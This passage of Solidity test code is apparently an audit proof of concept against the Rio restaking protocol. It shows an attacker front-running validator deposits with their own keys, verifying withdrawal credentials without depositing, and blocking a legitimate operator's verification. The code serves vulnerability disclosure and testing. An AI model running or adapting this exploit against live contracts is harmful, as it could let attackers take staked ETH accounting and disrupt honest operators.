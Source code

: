 ```solidity
            ethPOS.deposit{value: 32 ether}(attakerPublicKeys, abi.encodePacked(bytes1(uint8(1)), bytes11(0), address(pod)), attackerSignatures, depositDataRoot);
        }

        // then attacker verifyWithdrawalCredentials
        {    
            uint256 beforeEthBalanceInUnverifiedValidators = reETH.assetRegistry.ethBalanceInUnverifiedValidators();

            uint40[] memory validatorIndices =
                verifyCredentialsForValidators_For_PoC(reETH.operatorRegistry, attackerOperatorId, uint8(AMOUNT / 32 ether), false); // @audit-info attacker never deposit & rebalanced, but still has staking with confirmed validator

            uint256 afterEthBalanceInUnverifiedValidators = reETH.assetRegistry.ethBalanceInUnverifiedValidators();

            assertEq(afterEthBalanceInUnverifiedValidators, 0, "ethBalanceInUnverifiedValidators decreased");
            assertEq(beforeEthBalanceInUnverifiedValidators - afterEthBalanceInUnverifiedValidators, AMOUNT, "ethBalanceInUnverifiedValidators decreased");

            assertEq(delegationManager.operatorShares(attackerOperator, IStrategy(BEACON_CHAIN_STRATEGY)), 32 ether); // eigen layer share
        }

        {
            // normalOperator try to verify but fails
            uint40[] memory validatorIndices2 = verifyCredentialsForValidators_For_PoC(reETH.operatorRegistry, operatorId, uint8(AMOUNT / 32 ether), true);
            
        }
    }

    function addOperatorDelegator_For_PoC(RioLRTOperatorRegistry operatorRegistry, address rewardDistributor, uint8 count, address operator, bool addValidatorDetail)
        public
        returns (uint8 operatorId, bytes memory publicKeys, bytes memory signatures)
    {
        IRioLRTOperatorRegistry.StrategyShareCap[] memory shareCaps = new IRioLRTOperatorRegistry.StrategyShareCap[](2);
        shareCaps[0] = IRioLRTOperatorRegistry.StrategyShareCap({strategy: RETH_STRATEGY, cap: 1_000 ether});
        shareCaps[1] = IRioLRTOperatorRegistry.StrategyShareCap({strategy: CBETH_STRATEGY, cap: 1_000 ether});
        uint40 validatorCap = 1;

        // make validator with salt(operator address)
        (publicKeys, signatures) = getValidatorKeys_For_PoC(validatorCap, uint160(operator)); // @audit-info use salt for different validator

        string memory metadataURI = 'https://ipfs.io/ipfs/bafkreiaps6k6yapebk2eac2kgh47ktv2dxsajtssyi5fgnkrhyu7spivye';

        vm.prank(operator);
        delegationManager.registerAsOperator(
            IDelegationManager.OperatorDetails({
                earningsReceiver: rewardDistributor,
                delegationApprover: address(0),
                stakerOptOutWindowBlocks: 0
            }),
            metadataURI
        );
```